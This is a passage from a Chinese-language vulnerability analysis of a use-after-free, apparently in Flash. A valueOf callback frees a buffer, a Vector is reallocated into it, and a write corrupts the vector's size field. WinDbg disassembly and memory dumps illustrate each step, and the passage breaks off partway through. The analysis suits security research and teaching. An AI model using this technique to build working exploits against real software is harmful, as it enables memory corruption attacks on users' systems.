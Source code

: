 4 valueOf返回0x40，0x40被写入`buffer[3]`，由于UAF漏洞的存在，写入的是vector的size字段：

```
Vector                  | f0 03 00 40                           |
                        0                                       0x1000

```

于是我们可以得到一个超长的vector对象：

![enter image description here](http://drops.javaweb.org/uploads/images/b3b226bdae419299e1ab0f0358ab8a4407630ac2.jpg)

我们可以通过调试来观察漏洞的触发过程：

1 调用valueOf之前

```
0:005> u
671cf2a5    call     671b0930   //这里最终调用valueOf 
671cf2aa 83c404          add     esp,4
671cf2ad 8806            mov     byte ptr [esi],al
671cf2af 5e              pop     esi

```

此时esi指向old buffer:

```
0:005> dd esi-3
0dfd5000  00000000 00000000 00000000 00000000
0dfd5010  00000000 00000000 00000000 00000000

```

2 调用valueOf之后，old buffer被释放，然后被vector占据：

```
0:005> p
671cf2aa 83c404          add     esp,4

```

此时esi已经指向新分配的vector，就buffer已经被释放

```
0:005> dd esi-3
0dfd5000  000003f0 0d2b3000 00000000 00000000
0dfd5010  00000000 00000000 00000000 00000000
0dfd5020  00000000 00000000 00000000 00000000
0dfd5030  00000000 00000000 00000000 00000000
0dfd5040  00000000 00000000 00000000 00000000
0dfd5050  00000000 00000000 00000000 00000000
0dfd5060  00000000 00000000 00000000 00000000
0dfd5070  00000000 00000000 00000000 00000000

```

3 写入`buffer[3]`
